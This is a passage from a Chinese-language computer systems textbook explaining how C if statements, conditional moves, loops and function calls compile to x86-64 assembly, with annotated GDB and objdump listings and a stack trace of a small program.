`goto` 语句由 `goto` 关键字和一个*跳转标签*组成，跳转标签是一种程序标签，用于指示程序应该从哪里继续执行。因此，`goto done`表示程序执行应跳转到标签为 `done` 的行。C 语言中的其他程序标签例子包括在“switch 语句”中提到的 `switch` 语句标签，第 122 页也有介绍。

以下代码清单展示了一个函数 `getSmallest`，它首先用常规的 C 代码编写（第一部分），然后展示其相应的 C 语言 `goto` 形式（第二部分）。`getSmallest` 函数比较两个整数（`x` 和 `y`）的值，并将较小的值赋给变量 `smallest`。

常规 C 版本

```
int getSmallest(int x, int y) {

    int smallest;

    if ( x > y ) { //if (conditional)

        smallest = y; //then statement

    }

    else {

        smallest = x; //else statement

    }

    return smallest;

}
```

goto 版本

```
int getSmallest(int x, int y) {

    int smallest;

    if (x <= y ) { //if (!conditional)

        goto else_statement;

    }

    smallest = y; //then statement

    goto done;

else_statement:

    smallest = x; //else statement

done:

    return smallest;

}
```

这个函数的 `goto` 形式可能看起来有些反直觉，但让我们来讨论一下究竟发生了什么。条件语句检查变量 `x` 是否小于或等于 `y`。

+   如果 `x` 小于或等于 `y`，程序将控制权转移到标记为 `else_statement` 的标签，该标签下包含单个语句 `smallest = x`。由于程序是线性执行的，因此程序会继续执行 `done` 标签下的代码，返回 `smallest` 的值（即 `x`）。

+   如果 `x` 大于 `y`，则将 `smallest` 赋值为 `y`。然后程序执行 `goto done` 语句，这会将控制权转移到 `done` 标签，返回 `smallest` 的值（即 `y`）。

虽然 `goto` 语句在编程的早期被广泛使用，但在现代代码中使用 `goto` 语句被认为是一种不好的做法，因为它会降低代码的可读性。实际上，计算机科学家埃兹赫尔·代克斯特拉（Edsger Dijkstra）曾写过一篇著名的论文，猛烈批评了 `goto` 语句的使用，论文名为“Go To 语句被认为有害”。^(1)

一般来说，设计良好的 C 程序不会使用 `goto` 语句，并且程序员通常被建议避免使用它们，以避免编写难以阅读、调试和维护的代码。然而，理解 C 语言中的 `goto` 语句非常重要，因为 GCC 通常会在将 C 代码翻译成汇编之前，将包含条件语句和循环的代码转换为 `goto` 形式。

#### 7.4.2 汇编中的 `if` 语句

让我们来看一下汇编中的 `getSmallest` 函数。为了方便，这里重新列出该函数：

```
int getSmallest(int x, int y) {

    int smallest;

    if ( x > y ) {

        smallest = y;

    }

    else {

        smallest = x;

    }

    return smallest;

}
```

从 GDB 提取的相应汇编代码如下所示：

```
(gdb) disas getSmallest

Dump of assembler code for function getSmallest:

   0x40059a <+4>:   mov    %edi,-0x14(%rbp)

   0x40059d <+7>:   mov    %esi,-0x18(%rbp)

   0x4005a0 <+10>:  mov    -0x14(%rbp),%eax

   0x4005a3 <+13>:  cmp    -0x18(%rbp),%eax

   0x4005a6 <+16>:  jle    0x4005b0 <getSmallest+26>

   0x4005a8 <+18>:  mov    -0x18(%rbp),%eax

   0x4005ae <+24>:  jmp    0x4005b9 <getSmallest+35>

   0x4005b0 <+26>:  mov    -0x14(%rbp),%eax

   0x4005b9 <+35>:  pop    %rbp

   0x4005ba <+36>:  retq
```

这是我们之前看到的汇编代码的另一种视角。在这里，我们可以看到与每条指令相关联的*地址*，但看不到*字节*。请注意，为了简化说明，这段汇编代码已经做了轻微编辑。通常作为函数创建一部分的指令（例如 `push %rbp`，`mov %rsp,%rbp`）已被移除。根据惯例，GCC 会将函数的第一个和第二个参数分别放入寄存器 `%rdi` 和 `%rsi` 中。由于 `getSmallest` 函数的参数类型为 `int`，编译器将这些参数放入相应的组件寄存器 `%edi` 和 `%esi` 中。为了便于说明，我们将这些参数分别称为 `x` 和 `y`。

让我们跟踪前面汇编代码片段的前几行。请注意，在这个例子中我们不会显式地绘制堆栈。我们将这作为一个练习留给读者，并鼓励你通过自己画出来来练习堆栈跟踪技巧。

+   第一条 `mov` 指令将寄存器 `%edi`（第一个参数 `x`）中的值复制到调用栈中的内存位置 `%rbp-0x14`。指令指针（`%rip`）设置为下一个指令的地址，或者 0x40059d。

+   第二条 `mov` 指令将寄存器 `%esi`（第二个参数 `y`）中的值复制到调用栈中的内存位置 `%rbp-0x18`。指令指针（`%rip`）更新，指向下一个指令的地址，或者 0x4005a0。

+   第三条 `mov` 指令将 `x` 复制到寄存器 `%eax`。寄存器 `%rip` 更新，指向顺序中下一个指令的地址。

+   `cmp` 指令将位置 `%rbp-0x18`（第二个参数 `y`）的值与 `x` 进行比较，并设置相应的条件码标志寄存器。寄存器 `%rip` 会跳转到下一个指令的地址，或者 0x4005a6。

+   地址 0x4005a6 处的 `jle` 指令表示，如果 `x` 小于或等于 `y`，则应该执行下一条指令，其地址位于 `<getSmallest+26>`，并且 `%rip` 应该设置为地址 0x4005b0。否则，`%rip` 设置为下一个顺序指令的地址，或者 0x4005a8。

接下来执行的指令取决于程序是否在地址 0x4005a6 跳转（即执行跳转）。我们首先假设没有跟随跳转。在这种情况下，`%rip` 被设置为 0x4005a8（即 `<getSmallest+18>`），接下来执行的指令序列如下：

+   `<getSmallest+18>` 处的 `mov -0x18(%rbp), %eax` 指令将 `y` 复制到寄存器 `%eax`。寄存器 `%rip` 移动到 0x4005ae。

+   `<getSmallest+24>` 处的 `jmp` 指令将寄存器 `%rip` 设置为地址 0x4005b9。

+   最后要执行的指令是 `pop` `%rbp` 指令和 `retq` 指令，它们清理堆栈并从函数调用中返回。在这种情况下，`y` 存在于返回寄存器中。

现在，假设跳转发生在 `<getSmallest+16>`。换句话说，`jle` 指令将寄存器 `%rip` 设置为 0x4005b0（即 `<getSmallest+26>`）。接下来执行的指令是：

+   地址 0x4005b0 的 `mov -0x14(%rbp),%eax` 指令将 `x` 复制到寄存器 `%eax`。寄存器 `%rip` 移动到 0x4005b9。

+   执行的最后一条指令是 `pop %rbp` 和 `retq`，它们清理堆栈并返回返回寄存器中的值。在这种情况下，寄存器 `%eax` 包含 `x`，而 `getSmallest` 返回 `x`。

然后，我们可以按如下方式注释之前的汇编代码：

```
0x40059a <+4>:  mov %edi,-0x14(%rbp)          # copy x to %rbp-0x14

0x40059d <+7>:  mov %esi,-0x18(%rbp)          # copy y to %rbp-0x18

0x4005a0 <+10>: mov -0x14(%rbp),%eax          # copy x to %eax

0x4005a3 <+13>: cmp -0x18(%rbp),%eax          # compare x with y

0x4005a6 <+16>: jle 0x4005b0 <getSmallest+26> # if x<=y goto <getSmallest+26>

0x4005a8 <+18>: mov -0x18(%rbp),%eax          # copy y to %eax

0x4005ae <+24>: jmp 0x4005b9 <getSmallest+35> # goto <getSmallest+35>

0x4005b0 <+26>: mov -0x14(%rbp),%eax          # copy x to %eax

0x4005b9 <+35>: pop %rbp                      # restore %rbp (clean up stack)

0x4005ba <+36>: retq                          # exit function (return %eax)
```

将此翻译回 C 代码得到：

goto 形式

```
int getSmallest(int x, int y) {

    int smallest;

    if (x <= y) {

        goto assign_x;

    }

    smallest = y;

    goto done;

assign_x:

    smallest = x;

done:

    return smallest;

}
```

翻译后的 C 代码

```
int getSmallest(int x, int y) {

    int smallest;

    if (x <= y) {

 smallest = x;

    }

    else {

        smallest = y;

    }

    return smallest;

}
```

在这些代码列表中，变量 `smallest` 对应于寄存器 `%eax`。如果 `x` 小于或等于 `y`，代码将执行语句 `smallest = x`，这与我们 `goto` 形式中函数的 `assign_x` 标签相关联。否则，执行语句 `smallest = y`。`goto` 标签 `done` 用于表示应返回 `smallest` 中的值。

请注意，之前对汇编代码的 C 翻译与原始的 `getSmallest` 函数略有不同。这些差异不重要；仔细检查两个函数可以发现这两个程序在逻辑上是等价的。然而，编译器首先将任何 `if` 语句转换为等效的 `goto` 形式，这导致了略微不同但等价的版本。以下代码示例显示了标准的 `if` 语句格式及其等效的 `goto` 形式：

C 的 if 语句

```
if (<condition>) {

    <then_statement>;

}

else {

    <else_statement>;

}
```

编译器的等效 goto 形式

```
    if (!<condition>) {

        goto else;

    }

    <then_statement>;

    goto done;

else:

    <else_statement>;

done:
```

编译器将代码翻译成汇编时，在条件为真时指定跳转。与此行为相比，`if` 语句的结构是，当条件 *不* 为真时会发生“跳转”（到 `else`）。`goto` 形式捕获了这种逻辑差异。

考虑到 `getSmallest` 函数的原始 `goto` 翻译，我们可以看到：

+   `x <= y` 对应于 `!*<condition>*`。

+   `smallest = x` 是 <else_statement>。

+   `smallest = y` 这一行是 <then_statement>。

+   函数中的最后一行是 `return smallest`。

使用之前的注释重写原始版本的函数得到：

```
int getSmallest(int x, int y) {

    int smallest;

    if (x > y) {     //!(x <= y)

        smallest = y; //then_statement

    }

    else {

        smallest = x; //else_statement

    }

    return smallest;

}
```

这个版本与原始的`getSmallest`函数是相同的。请记住，在 C 语言层面上以不同方式编写的函数可以翻译为相同的一组汇编指令。

##### cmov 指令

我们讨论的最后一组条件指令是*条件移动*（`cmov`）指令。`cmp`、`test`和`jmp`指令在程序中实现了*条件控制转移*。换句话说，程序的执行会在多个方向上分支。这对于优化代码来说可能是非常有问题的，因为这些分支非常耗费资源。

相反，`cmov`指令实现了*条件数据传输*。换句话说，条件的<then_statement>和<else_statement>都会执行，并且根据条件的结果将数据放入适当的寄存器。

C 的*三元表达式*的使用通常会导致编译器生成`cmov`指令来代替跳转。对于标准的 if-then-else 语句，三元表达式的形式是：

```
result = (<condition>) ? <then_statement> : <else_statement>;
```

让我们使用这种格式将`getSmallest`函数重写为三元表达式。请记住，这个新版本的函数行为与原始的`getSmallest`函数完全一致：

```
int getSmallest_cmov(int x, int y) {

    return x > y ? y : x;

}
```

虽然这看起来可能不是一个大变化，但让我们看看生成的汇编代码。回想一下，第一个和第二个参数（`x`和`y`）分别存储在寄存器`%edi`和`%esi`中。

```
0x4005d7 <+0>:   push   %rbp             #save %rbp

0x4005d8 <+1>:   mov    %rsp,%rbp        #update %rbp

0x4005db <+4>:   mov    %edi,-0x4(%rbp)  #copy x to %rbp-0x4

0x4005de <+7>:   mov    %esi,-0x8(%rbp)  #copy y to %rbp-0x8

0x4005e1 <+10>:  mov    -0x8(%rbp),%eax  #copy y to %eax

0x4005e4 <+13>:  cmp    %eax,-0x4(%rbp)  #compare x and y

0x4005e7 <+16>:  cmovle -0x4(%rbp),%eax  #if (x <=y) copy x to %eax

0x4005eb <+20>:  pop    %rbp             #restore %rbp

0x4005ec <+21>:  retq                    #return %eax
```

这段汇编代码没有跳转。比较`x`和`y`之后，只有当`x`小于或等于`y`时，`x`才会移入返回寄存器。与跳转指令一样，`cmov`指令的后缀指示了条件移动发生的条件。表 7-15 列出了条件移动指令的集合。

**表 7-15：** `cmov`指令

| **有符号** | **无符号** | **描述** |
| --- | --- | --- |
| `cmove` (`cmovz`) |  | 如果相等（==）则移动 |
| `cmovne` (`cmovnz`) |  | 如果不等于（!=）则移动 |
| `cmovs` |  | 如果为负数则移动 |
| `cmovns` |  | 如果非负数则移动 |
| `cmovg` (`cmovnle`) | `cmova` (`cmovnbe`) | 如果大于（>）则移动 |
| `cmovge` (`cmovnl`) | `cmovae` (`cmovnb`) | 如果大于或等于（>=）则移动 |
| `cmovl` (`cmovnge`) | `cmovb` (`cmovnae`) | 如果小于（<）则移动 |
| `cmovle` (`cmovng`) | `cmovbe` (`cmovna`) | 如果小于或等于（<=）则移动 |

在原始`getSmallest`函数的情况下，编译器的内部优化器（参见第十二章）将在打开一级优化（即`-O1`）时，将跳转指令替换为`cmov`指令：

```
#compiled with: gcc -O1 -o getSmallest getSmallest.c

<getSmallest>:

   0x400546 <+0>: cmp    %esi,%edi      #compare x and y

   0x400548 <+2>: mov    %esi,%eax      #copy y to %eax

   0x40054a <+4>: cmovle %edi,%eax      #if (x<=y) copy x to %eax

   0x40054d <+7>: retq                  #return %eax
```

通常，编译器在将跳转指令优化为`cmov`指令时非常谨慎，特别是在涉及副作用和指针值的情况下。在这里，我们展示了两种等效的函数编写方式，`incrementX`：

C 代码

```
int incrementX(int *x) {

    if (x != NULL) { //if x is not NULL

        return (*x)++; //increment x

    }

    else { //if x is NULL

        return 1; //return 1

    }

}
```

C 三元形式

```
int incrementX2(int *x){

    return x ? (*x)++ : 1;

}
```

每个函数都接受一个指向整数的指针作为输入，并检查它是否为`NULL`。如果`x`不是`NULL`，该函数将对其进行递增并返回解引用的值。否则，函数将返回值 1。

很容易认为`incrementX2`使用了`cmov`指令，因为它使用了三元表达式。然而，两个函数生成的汇编代码完全相同：

```
0x4005ed <+0>:   push   %rbp

0x4005ee <+1>:   mov    %rsp,%rbp

0x4005f1 <+4>:   mov    %rdi,-0x8(%rbp)

0x4005f5 <+8>:   cmpq   $0x0,-0x8(%rbp)

0x4005fa <+13>:  je     0x40060d <incrementX+32>

0x4005fc <+15>:  mov    -0x8(%rbp),%rax

0x400600 <+19>:  mov    (%rax),%eax

0x400602 <+21>:  lea    0x1(%rax),%ecx

0x400605 <+24>:  mov    -0x8(%rbp),%rdx

0x400609 <+28>:  mov    %ecx,(%rdx)

0x40060b <+30>:  jmp    0x400612 <incrementX+37>

0x40060d <+32>:  mov    $0x1,%eax

0x400612 <+37>:  pop    %rbp

0x400613 <+38>:  retq
```

记住，`cmov`指令*执行条件的两个分支*。换句话说，不管怎样，`x`都会被解引用。考虑一下`x`是空指针的情况。记住，解引用空指针会导致空指针异常，导致代码中出现段错误。为了防止这种情况的发生，编译器选择了安全的方式，使用了跳转。

#### 7.4.3 汇编中的循环

与`if`语句类似，汇编中的循环也是通过跳转指令实现的。然而，循环使得指令可以根据评估条件的结果被*重新访问*。

下例中展示的`sumUp`函数将从 1 到用户定义的整数之间的所有正整数相加。为了演示 C 语言中的`while`循环，这段代码故意写得不够优化。

```
int sumUp(int n) {

    //initialize total and i

    int total = 0;

    int i = 1;

    while (i <= n) {  //while i is less than or equal to n

        total += i;   //add i to total

        i++;          //increment i by 1

    }

    return total;

}
```

将此代码编译并使用 GDB 进行反汇编，得到以下汇编代码：

```
Dump of assembler code for function sumUp:

0x400526 <+0>:   push   %rbp

0x400527 <+1>:   mov    %rsp,%rbp

0x40052a <+4>:   mov    %edi,-0x14(%rbp)

0x40052d <+7>:   mov    $0x0,-0x8(%rbp)

0x400534 <+14>:  mov    $0x1,-0x4(%rbp)

0x40053b <+21>:  jmp    0x400547 <sumUp+33>

0x40053d <+23>:  mov    -0x4(%rbp),%eax

0x400540 <+26>:  add    %eax,-0x8(%rbp)

0x400543 <+29>:  add    $0x1,-0x4(%rbp)

0x400547 <+33>:  mov    -0x4(%rbp),%eax

0x40054a <+36>:  cmp    -0x14(%rbp),%eax

0x40054d <+39>:  jle    0x40053d <sumUp+23>

0x40054f <+41>:  mov    -0x8(%rbp),%eax

0x400552 <+44>:  pop    %rbp

0x400553 <+45>:  retq
```

同样，在这个例子中我们不会显式地画出堆栈。但是，我们鼓励读者自己画出堆栈。

##### 前五条指令

该函数的前五条指令为函数执行设置堆栈，并为函数执行设置临时值：

```
0x400526 <+0>:  push %rbp              # save %rbp onto the stack

0x400527 <+1>:  mov  %rsp,%rbp         # update the value of %rbp (new frame)

0x40052a <+4>:  mov  %edi,-0x14(%rbp)  # copy n to %rbp-0x14

0x40052d <+7>:  mov  $0x0,-0x8(%rbp)   # copy 0 to %rbp-0x8 (total)

0x400534 <+14>: mov  $0x1,-0x4(%rbp)   # copy 1 to %rbp-0x4 (i)
```

记住，堆栈位置存储了函数中的*临时变量*。为了简化，我们将标记为`%rbp-0x8`的位置称为`total`，将`%rbp-0x4`称为`i`。`sumUp`的输入参数（`n`）被移动到堆栈位置`%rbp-0x14`。尽管临时变量被放置在堆栈上，但请记住，在执行第一条指令（即`push %rbp`）之后，堆栈指针没有发生变化。

##### 循环的核心

`sumUp`函数中的接下来七条指令代表了循环的核心部分：

```
0x40053b <+21>:  jmp    0x400547 <sumUp+33>  # goto <sumUp+33>

0x40053d <+23>:  mov    -0x4(%rbp),%eax      # copy i to %eax

0x400540 <+26>:  add    %eax,-0x8(%rbp)      # add i to total (total += i)

0x400543 <+29>:  add    $0x1,-0x4(%rbp)      # add 1 to i (i += 1)

0x400547 <+33>:  mov    -0x4(%rbp),%eax      # copy i to %eax

0x40054a <+36>:  cmp    -0x14(%rbp),%eax     # compare i to n

0x40054d <+39>:  jle    0x40053d <sumUp+23>  # if (i <= n) goto <sumUp+23>
```

+   第一条指令是直接跳转到`<sumUp+33>`，将指令指针（`%rip`）设置为地址 0x400547。

+   执行的下一条指令是`mov -0x4(%rbp),%eax`，它将`i`的值放入寄存器`%eax`中。寄存器`%rip`被更新为 0x40054a。

+   `<sumUp+36>`处的`cmp`指令将`i`与`n`进行比较，并设置适当的条件码寄存器。寄存器`%rip`被设置为 0x40054d。

然后执行`jle`指令。接下来执行的指令取决于分支是否被执行。

假设执行了这个分支（即`i <= n`为真）。那么，指令指针被设置为 0x40053d，程序执行跳转到`<sumUp+23>`。接下来的指令按顺序执行：

+   `<sumUp+23>`处的`mov`指令将`i`复制到寄存器`%eax`中。

+   `add %eax,-0x8(%rbp)`将`i`加到`total`中（即`total += i`）。

+   `<sumUp+29>` 处的 `add` 指令将 1 加到 `i` 上（即 `i += 1`）。

+   `<sumUp+33>` 处的 `mov` 指令将更新后的 `i` 值复制到寄存器 `%eax`。

+   `cmp` 指令随后将 `i` 与 `n` 进行比较，并设置适当的条件码寄存器。

+   接下来，`jle` 执行。如果 `i` 小于或等于 `n`，程序执行会再次跳转到 `<sumUp+23>`，并且循环（在 `<sumUp+23>` 和 `<sumUp+39>` 之间定义）会重复。

如果分支 *没有* 被执行（即 `i` *不* 小于或等于 `n`），则执行以下指令：

```
0x40054f <+41>:  mov    -0x8(%rbp),%eax     # copy total to %eax

0x400552 <+44>:  pop    %rbp                # restore rbp

0x400553 <+45>:  retq                       # return (total)
```

这些指令将 `total` 复制到寄存器 `%eax`，恢复 `%rbp` 的原始值，并退出函数。因此，函数在退出时返回 `total`。

以下代码展示了 `sumUp` 函数的汇编形式和 C 语言中 `goto` 的形式：

汇编

```
<sumUp>:

  <+0>:   push   %rbp

  <+1>:   mov    %rsp,%rbp

  <+4>:   mov    %edi,-0x14(%rbp)

  <+7>:   mov    $0x0,-0x8(%rbp)

  <+14>:  mov    $0x1,-0x4(%rbp)

  <+21>:  jmp    0x400547 <sumUp+33>

  <+23>:  mov    -0x4(%rbp),%eax

  <+26>:  add    %eax,-0x8(%rbp)

  <+29>:  add    $0x1,-0x4(%rbp)

  <+33>:  mov    -0x4(%rbp),%eax

  <+36>:  cmp    -0x14(%rbp),%eax

  <+39>:  jle    0x40053d <sumUp+23>

  <+41>:  mov    -0x8(%rbp),%eax

  <+44>:  pop    %rbp

  <+45>:  retq
```

转换后的 goto 形式

```
int sumUp(int n) {

    int total = 0;

    int i = 1;

    goto start;

body:

    total += i;

    i += 1;

start:

    if (i <= n) {

        goto body;

    }

    return total;

}
```

上述代码也等同于以下没有 `goto` 语句的 C 代码：

```
int sumUp(int n) {

    int total = 0;

    int i = 1;

    while (i <= n) {

        total += i;

        i += 1;

    }

    return total;

}
```

##### 汇编中的 for 循环

`sumUp` 函数中的主要循环也可以写成一个 `for` 循环：

```
int sumUp2(int n) {

    int total = 0;             //initialize total to 0

    int i;

    for (i = 1; i <= n; i++) { //initialize i to 1, increment by 1 while i<=n

        total += i;            //updates total by i

    }

    return total;

}
```

这个版本生成的汇编代码与我们的 `while` 循环示例相同。我们在此重复汇编代码，并用英文注释标注每一行：

```
Dump of assembler code for function sumUp2:

0x400554 <+0>:   push   %rbp                   #save %rbp

0x400555 <+1>:   mov    %rsp,%rbp              #update %rpb (new stack frame)

0x400558 <+4>:   mov    %edi,-0x14(%rbp)       #copy %edi to %rbp-0x14 (n)

0x40055b <+7>:   movl   $0x0,-0x8(%rbp)        #copy 0 to %rbp-0x8 (total)

0x400562 <+14>:  movl   $0x1,-0x4(%rbp)        #copy 1 to %rbp-0x4 (i)

0x400569 <+21>:  jmp    0x400575 <sumUp2+33>   #goto <sumUp2+33>

0x40056b <+23>:  mov    -0x4(%rbp),%eax        #copy i to %eax [loop]

0x40056e <+26>:  add    %eax,-0x8(%rbp)        #add i to total (total+=i)

0x400571 <+29>:  addl   $0x1,-0x4(%rbp)        #add 1 to i (i++)

0x400575 <+33>:  mov    -0x4(%rbp),%eax        #copy i to %eax [start]

0x400578 <+36>:  cmp    -0x14(%rbp),%eax       #compare i with n

0x40057b <+39>:  jle    0x40056b <sumUp2+23>   #if (i <= n) goto loop

0x40057d <+41>:  mov    -0x8(%rbp),%eax        #copy total to %eax

0x400580 <+44>:  pop    %rbp                   #prepare to leave the function

0x400581 <+45>:  retq                          #return total
```

为了理解为什么该 `for` 循环版本的代码和 `while` 循环版本生成相同的汇编代码，回忆一下 `for` 循环的表示形式如下：

```
for (<initialization>; <boolean expression>; <step>){

    <body>

}
```

并且等同于以下的 `while` 循环表示形式：

```
<initialization>

while (<boolean expression>) {

    <body>

    <step>

}
```

由于每个 `for` 循环都可以用 `while` 循环表示（请参见 第 35 页的“for 循环”部分），以下两个 C 程序是与前述汇编代码等效的表示：

For 循环

```
int sumUp2(int n) {

    int total = 0;

    int i = 1;

    for (i; i <= n; i++) {

        total += i;

    }

    return total;

}
```

While 循环

```
int sumUp(int n){

    int total = 0;

    int i = 1;

    while (i <= n) {

        total += i;

        i += 1;

    }

    return total;

}
```

### 7.5 汇编中的函数

在上一节中，我们追踪了简单的汇编函数。在本节中，我们将讨论多个函数在汇编中的交互，特别是在一个更大程序的上下文中。我们还将介绍一些与函数管理相关的新指令。

让我们从复习一下如何管理调用栈开始。回忆一下，`%rsp` 是 *栈指针*，它始终指向栈的顶部。寄存器 `%rbp` 代表基指针（也称为 *帧指针*），指向当前栈帧的底部。*栈帧*（也叫 *激活帧* 或 *激活记录*）指的是栈上为单个函数调用分配的部分。当前正在执行的函数总是在栈的顶部，它的栈帧被称为 *活动帧*。活动帧的边界由栈指针（栈顶）和帧指针（帧底）界定。激活记录通常保存一个函数的局部变量。图 7-4 展示了 `main` 函数和它调用的函数 `fname` 的栈帧。我们将 `main` 函数称为 *调用者* 函数，`fname` 称为 *被调用者* 函数。



*图 7-4：栈帧管理*

在图 7-4 中，当前的活动帧属于被调用函数（`fname`）。栈指针和帧指针之间的内存用于局部变量。随着局部值被推入或弹出栈，栈指针会发生变化。相比之下，帧指针保持相对稳定，指向当前栈帧的开始（底部）。因此，像 GCC 这样的编译器通常会相对于帧指针引用栈上的值。在图 7-4 中，活动帧的下界是 `fname` 的基址指针，栈地址为 0x418。存储在地址 0x418 的值是“保存的”`%rbp` 值（0x42c），它本身是一个地址，指示 `main` 函数激活帧的底部。`main` 激活帧的顶部由*返回地址*界定，指示当被调用函数 `fname` 执行完毕后，`main` 函数程序执行将从哪里恢复。

**警告 返回地址指向代码段内存，而不是栈内存**

请记住，程序的调用栈区域（栈内存）与其代码区域（代码段内存）是不同的。虽然 `%rbp` 和 `%rsp` 指向栈内存中的地址，`%rip` 指向的是*代码*段内存中的地址。换句话说，返回地址是代码段内存中的地址，而不是栈内存中的地址（见图 7-5）。



*图 7-5：程序地址空间的各部分*

表 7-16 包含了编译器用于基本函数管理的若干其他指令。

**表 7-16：** 常见函数管理指令

| **指令** | **翻译** |
| --- | --- |
| `leaveq` | 为退出函数准备栈。等价于： |
|  | `mov %rbp,%rsp` |
|  | `pop %rbp` |
| `callq addr <fname>` | 切换活动帧到被调用函数。等价于： |
|  | `push %rip` |
|  | `mov addr, %rip` |
| `retq` | 恢复活动帧到调用函数。等价于： |
|  | `pop %rip` |

例如，`leaveq` 指令功能是编译器用来恢复栈和帧指针的简写，它用于准备退出一个函数。当被调用函数执行完毕时，`leaveq` 确保帧指针被*恢复*到先前的值。

`callq` 和 `retq` 指令在一个函数调用另一个函数的过程中起着重要作用。这两个指令都会修改指令指针（寄存器`%rip`）。当调用函数执行 `callq` 指令时，`%rip` 的当前值会保存在栈上，作为返回地址，表示当被调用函数执行完毕后，调用函数将恢复执行的位置。`callq` 指令还会用被调用函数的地址替换 `%rip` 的值。

`retq` 指令将 `%rip` 的值恢复为栈上保存的值，确保程序在调用函数中指定的程序地址处恢复执行。被调用者返回的任何值都存储在 `%rax` 或其组件寄存器中（例如 `%eax`）。`retq` 指令通常是任何函数中最后执行的指令。

#### 7.5.1 函数参数

与 IA32 不同，函数参数通常在函数调用之前被预先加载到寄存器中。表 7-17 列出了函数的参数以及在函数调用之前它们被加载到的寄存器（如果有的话）。

**表 7-17：** 函数参数的位置

| **参数** | **位置** |
| --- | --- |
| 参数 1 | `%rdi` |
| 参数 2 | `%rsi` |
| 参数 3 | `%rdx` |
| 参数 4 | `%rcx` |
| 参数 5 | `%r8` |
| 参数 6 | `%r9` |
| 参数 7+ | 在调用栈上 |

函数的前六个参数依次加载到寄存器 `%rdi`、`%rsi`、`%rdx`、`%rcx`、`%r8` 和 `%r9` 中。任何额外的参数则根据其大小依次加载到调用栈中（32 位数据为 4 字节偏移，64 位数据为 8 字节偏移）。

#### 7.5.2 通过示例进行追踪

利用我们对函数管理的知识，让我们从本章开始时介绍的代码示例中进行追踪。请注意，`void` 关键字被添加到每个函数定义的参数列表中，以指定这些函数不接受任何参数。此更改不会修改程序的输出，但它确实简化了相应的汇编代码。

```
#include <stdio.h>

int assign(void) {

    int y = 40;

    return y;

}

int adder(void) {

    int a;

    return a + 2;

}

int main(void) {

    int x;

    assign();

    x = adder();

    printf("x is: %d\n", x);

    return 0;

}
```

我们使用命令 `gcc -o prog prog.c` 来编译此代码，并使用 `objdump -d` 查看底层的汇编代码。后者命令输出了一个相当大的文件，包含了许多我们不需要的信息。使用 `less` 和搜索功能来提取 `adder`、`assign` 和 `main` 函数：

```
0000000000400526 <assign>:

  400526:       55                      push   %rbp

  400527:       48 89 e5                mov    %rsp,%rbp

  40052a:       c7 45 fc 28 00 00 00    movl   $0x28,-0x4(%rbp)

  400531:       8b 45 fc                mov    -0x4(%rbp),%eax

  400534:       5d                      pop    %rbp

  400535:       c3                      retq

0000000000400536 <adder>:

  400536:       55                      push   %rbp

  400537:       48 89 e5                mov    %rsp,%rbp

  40053a:       8b 45 fc                mov    -0x4(%rbp),%eax

  40053d:       83 c0 02                add    $0x2,%eax

  400540:       5d                      pop    %rbp

  400541:       c3                      retq

0000000000400542 <main>:

  400542:       55                      push   %rbp

  400543:       48 89 e5                mov    %rsp,%rbp

  400546:       48 83 ec 10             sub    $0x10,%rsp

  40054a:       e8 e3 ff ff ff          callq  400526 <assign>

  40054f:       e8 d2 ff ff ff          callq  400536 <adder>

  400554:       89 45 fc                mov    %eax,-0x4(%rbp)

  400557:       8b 45 fc                mov    -0x4(%rbp),%eax

  40055a:       89 c6                   mov    %eax,%esi

  40055c:       bf 04 06 40 00          mov    $0x400604,%edi

  400561:       b8 00 00 00 00          mov    $0x0,%eax

  400566:       e8 95 fe ff ff          callq  400400 <printf@plt>

  40056b:       b8 00 00 00 00          mov    $0x0,%eax

  400570:       c9                      leaveq

  400571:       c3                      retq
```

每个函数以一个符号标签开始，该标签对应于程序中声明的函数名。例如，`<main>:` 是 `main` 函数的符号标签。函数标签的地址也是该函数中第一条指令的地址。为了节省后续图示的空间，我们将地址截断到低 12 位。所以，程序地址 0x400542 显示为 0x542。

#### 7.5.3 追踪 main

图 7-6 显示了在执行 `main` 之前的执行栈。



*图 7-6：在执行 main 函数之前，CPU 寄存器和调用栈的初始状态*

回想一下栈是向低地址方向增长的。在这个例子中，`%rbp` 最初是栈地址 0x830，而 `%rsp` 最初是栈地址 0xd48。这两个值是为了这个例子而编造的。

由于前面示例中的函数使用了整数数据，我们突出了组件寄存器 `%eax` 和 `%edi`，它们最初包含垃圾值。左上方的箭头表示当前正在执行的指令。最初，`%rip` 包含地址 0x542，这是 `main` 函数中第一行代码的程序内存地址。



第一条指令通过将 0x830 推入栈中来保存 `%rbp` 的当前值。由于栈向较低的地址生长，栈指针 `%rsp` 被更新为 0xd40，低于 0xd48 八个字节。`%rip` 前进到下一条指令。



下一条指令（`mov %rsp,%rbp`）将 `%rbp` 的值更新为与 `%rsp` 相同。帧指针（`%rbp`）现在指向 `main` 函数的栈帧起始位置。`%rip` 前进到下一条指令。



`sub` 指令将 0x10 从栈指针的地址中减去，实际上使得栈“增长”了 16 字节，我们通过在栈上显示两个 8 字节位置来表示。寄存器 `%rsp` 因此有了新的值 0xd30。`%rip` 前进到下一条指令。



`callq <assign>` 指令将寄存器 `%rip` 中的值（表示 *下一个* 要执行的指令的地址）推入栈中。由于 `callq <assign>` 后的下一条指令地址为 0x55f，这个值作为返回地址被推入栈中。回想一下，返回地址表示当程序执行返回到 `main` 时应该从哪里恢复执行。

接下来，`callq` 指令将 `assign` 函数的地址（0x526）移入寄存器 `%rip`，表示程序执行应该继续进入被调用的 `assign` 函数，而不是继续执行 `main` 中的下一条指令。



在 `assign` 函数中执行的前两条指令是每个函数都会执行的常规维护。第一条指令将存储在 `%rbp` 中的值（内存地址 0xd40）推入栈中。回想一下，这个地址指向 `main` 的栈帧开始位置。`%rip` 前进到 `assign` 中的第二条指令。



下一条指令（`mov %rsp,%rbp`）更新 `%rbp` 为指向栈顶，标记着 `assign` 的栈帧开始。指令指针（`%rip`）前进到 `assign` 函数中的下一条指令。



位于地址 0x52a 的`mov`指令将值`$0x28`（或 40）存入栈中，地址为`-0x4(%rbp)`，即帧指针上方四个字节的地址。回想一下，帧指针通常用来引用栈上的位置。但请记住，这一操作并不会改变`%rsp`的值——栈指针仍然指向地址 0xd20。寄存器`%rip`将前进到`assign`函数中的下一条指令。



位于地址 0x531 的`mov`指令将值`$0x28`存入寄存器`%eax`，该寄存器保存函数的返回值。`%rip`将前进到`assign`函数中的`pop`指令。

 到这里，`assign`函数几乎已经执行完毕。下一条将执行的指令是`pop %rbp`，它将`%rbp`恢复到先前的值，即 0xd40。由于`pop`指令修改了栈指针，`%rsp`更新为 0xd28。



